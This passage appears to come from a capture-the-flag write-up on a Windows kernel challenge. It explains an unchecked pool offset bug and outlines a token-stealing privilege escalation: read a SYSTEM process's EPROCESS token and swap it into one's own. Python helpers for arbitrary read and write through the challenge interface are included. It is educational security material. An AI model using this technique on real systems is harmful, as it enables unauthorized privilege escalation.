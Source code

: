 #### Conclusion

As we clearly see there are no checks for the entry offsets, which means that we could provide any data we want and read/write at any offsets from the allocated pool we want.


## Exploit idea

The game plan here is that we are going to:

* Obtain the kernel base (that it prints for us)

* Obtain the process id (that it prints for us too)

* Read the EPROCESS of any system process that has privileged permissions(i.e read any file it wants)

* Find the EPROCESS of our process

* Swap the EPROCESS Token in our process with the systems one 


## Implementation

For the kernel base and process id we just need to read the input that the app is sending us

```py
kernel_base = int(io.recvline().decode().split(': ')[1], 16)
process_id: int = int(io.recvline().decode().split(': ')[1])
```

For the write/read functions we would need to pass an offset from the allocated pool and the kernel part would automatically multiply this value by 8, so we should account for it in our calculations. \
To make my life a bit easier i made these utils to interact with the user-mode challenge part

```py
def skip_options():
    io.recvuntil(b'an option\r\n')


def read_at(off: int) -> int:
    assert(off % 8 == 0)

    io.sendline(b'2')
    io.recvline()
    io.sendline(str(off // 8).encode())
    io.recvline()
    io.recvline()
    v = int(io.recvline().decode().split('ead ')[1].strip())

    skip_options()
    return v


def write_to(off: int, val: int) -> None:
    assert(off % 8 == 0)

    io.sendline(b'1')
    io.recvline()
    io.sendline(str(off // 8).encode())
    io.recvline()
    io.sendline(str(val).encode())
    io.recvline()
    io.recvline()

    skip_options()
```
